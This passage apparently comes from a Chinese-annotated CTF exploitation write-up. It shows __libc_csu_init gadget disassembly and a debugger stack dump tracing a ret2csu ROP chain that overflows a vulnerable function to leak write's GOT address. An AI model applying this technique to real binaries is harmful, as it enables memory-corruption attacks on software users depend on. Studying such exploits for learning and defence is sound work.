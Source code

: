 ```assembly
.text:000000000040061B            pop     rbp ; rbp = 1
.text:000000000040061C            pop     r12 ; r12 = write_got
.text:000000000040061E            pop     r13 ; r13 = 8
.text:0000000000400620            pop     r14 ; r14 = write_got
.text:0000000000400622            pop     r15 ; r15 = 1
.text:0000000000400624            retn ; pop EIP; i.e. EIP = 0x400600 跳转到 loc_400600 继续执行
.text:0000000000400624 __libc_csu_init endp
```

### retn in vul

在第一次调用`csu`时断下。`csu(0, 1, write_got, 8, write_got, 1, main_addr)`时，断在 vul 的 `retn` 上。重点看rsp此时的值

```assembly
$rsp  : 0x00007ffc14c02788 → 0x000000000040061a → <__libc_csu_init+90> pop rbx ; retn后该值赋给EIP
$rbp  : 0x6262626262626262 ("bbbbbbbb"?) ; payload的 b'b'*8 可在调试中查看rbp的值有没被准确覆盖; 如果leave执行完这里变成b'b' * 8 则说明payload中紧跟着的值会被覆盖到返回地址的位置上 
──────────────────────── stack ──── ; call read执行结束之后 栈上的内容被覆盖了 ↓
0x00007ffc14c02788│+0x0000: 0x000000000040061a → <__libc_csu_init+90> pop rbx ← $rsp; rsp在retn前的值为0x00007ffc14c02788, 指向的内存的值为0x40061a，是csu中的地址，即 csu_pop2retn_addr的值。retn相当于pop EIP，即 EIP = 0x40061a, rsp += 8
0x00007ffc14c02790│+0x0008: 0x0000000000000000 ; after retn, rsp point to here. pop rbx; i.e. rbx = 0 (实际上还有 rsp += 8, 这里省略)
0x00007ffc14c02798│+0x0010: 0x0000000000000001 ; pop rbp; i.e. rbp = 1 ; next inst: pop r12; i.e. r12 = write_got
0x00007ffc14c027a0│+0x0018: 0x0000000000601018 → 0x00007f5537cadf20 → <write+0> mov eax, DWORD PTR fs:0x18 
0x00007ffc14c027a8│+0x0020: 0x0000000000000008 ; pop r13; i.e. r13 = 8 ; next inst: pop r14; i.e. r14 = write_got
0x00007ffc14c027b0│+0x0028: 0x0000000000601018 → 0x00007f5537cadf20 → <write+0> mov eax, DWORD PTR fs:0x18 
0x00007ffc14c027b8│+0x0030: 0x0000000000000001 ; pop r15; i.e. r15 = 1
0x00007ffc14c027c0│+0x0038: 0x0000000000400600 → <__libc_csu_init+64> mov rdx, r13; retn; pop EIP; EIP = 0x400600
────────────────────────────────────────────── code:x86:64 ──── ; 断在了 vul 的 retn 处
     0x400584 <vulnerable_function+30> nop
     0x400585 <vulnerable_function+31> leave ; mov rsp, rbp; pop rbp; 如果rsp在执行前指向bbbbbbbb，则rbp=bbbbbbbb
●→   0x400586 <vulnerable_function+32> ret
   ↳    0x40061a <__libc_csu_init+90> pop    rbx
        0x40061b <__libc_csu_init+91> pop    rbp
        0x40061c <__libc_csu_init+92> pop    r12
        0x40061e <__libc_csu_init+94> pop    r13
        0x400620 <__libc_csu_init+96> pop    r14
        0x400622 <__libc_csu_init+98> pop    r15 ; 再后面一条指令是 retn
─────────────────────────────────────────────────────────── trace ────
[#0] 0x400586 → vulnerable_function()
[#1] 0x40061a → __libc_csu_init()
```

### 0x400609 call in csu
